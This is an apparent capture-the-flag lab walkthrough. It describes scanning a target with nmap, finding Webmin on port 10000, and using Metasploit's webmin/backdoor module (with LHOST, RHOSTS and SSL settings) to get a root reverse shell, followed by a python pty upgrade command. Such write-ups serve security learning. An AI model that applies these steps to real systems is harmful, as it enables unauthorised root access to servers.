








## SOURCE 

## Lets start with the nmap scan 

performing full port scan on our target ip address 

found that port 22 and 10000 are open , lets perform a default script scan and service version scan on the ports

Found that on port 10000 Webmin service is running , lets try to access it on our web browser 

 

seems like the service is running on ssl mode 

lets search for webmin exploits in metasploit  

i tried first few exploits , that does not seems to be working , lets try the webmin/backdoor exploit 

set LHOST <tun0_ip> 
Set RHOSTS <target_ip>

Since we found that the service is running on ssl mode , Set ssl true 
 

our exploit worked successfully , we successfully got the reverse shell 

lets spawn a python pty shell 

command : python3 -c 'import pty; pty.spawn("/bin/bash")'

We are already in the highest privilege(root access) , lets navigate to root direcotry and view the root flag 

Lets naviagte to the home direcctory to view the user flag 

We successfully found the root flag and user flag 

---------------------------------------------------THE END------------------------------------------------------

